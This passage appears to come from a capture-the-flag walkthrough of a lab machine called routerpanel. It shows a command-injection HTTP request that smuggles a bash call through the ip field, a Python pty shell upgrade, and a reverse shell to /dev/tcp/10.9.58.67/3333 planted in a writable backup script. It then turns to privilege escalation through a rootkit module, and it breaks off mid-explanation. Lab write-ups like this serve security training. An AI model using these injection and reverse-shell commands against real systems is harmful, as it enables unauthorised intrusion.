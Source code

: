 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.56.176/myrouterpanel/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

ip=127.0.0.1%0Abash /dev/shm/aoba.sh&submit=

```

Now, let's make this shell more interactive using Python3.
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@routerpanel:/var/www/html/myrouterpanel$

```


in ```/usr/share/backup  ```  have a file with permissions for the user 'athena' let's try to modify it to create a reverse shell for that user.

```www-data@routerpanel:/usr/share/backup$ ls -la ```


```
total 20
drwxr-xr-x   2 athena   www-data  4096 May 28 18:59 .
drwxr-xr-x 236 root     root     12288 May 26 12:44 ..
-rwxr-xr-x   1 www-data athena     258 May 28 18:59 backup.sh
```


Now, let's modify the script's content for our reverse shell.
```www-data@routerpanel:/usr/share/backup$ echo "/bin/sh -i >& /dev/tcp/10.9.58.67/3333 0>&1" > backup.sh ```

for get the user flag
```athena@routerpanel:/$ cat /home/athena/user.txt  ```


now let's use ```sudo -l ``` command

```
Matching Defaults entries for athena on routerpanel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User athena may run the following commands on routerpanel:
    (root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko

```

Now, let's navigate to the directory ```/mnt/.../secret/```

righ now we can see the ``venom.ko``` file

Now, let's analyze the venom.ko.

# how you need get it about hacked_kill function:

Function Purpose:
The hacked_kill function is part of a specialized software module that runs within the Linux kernel. Its primary purpose is to intercept and modify the behavior of process termination signals (often referred to as "kill" signals) in the operating system.

Input:
```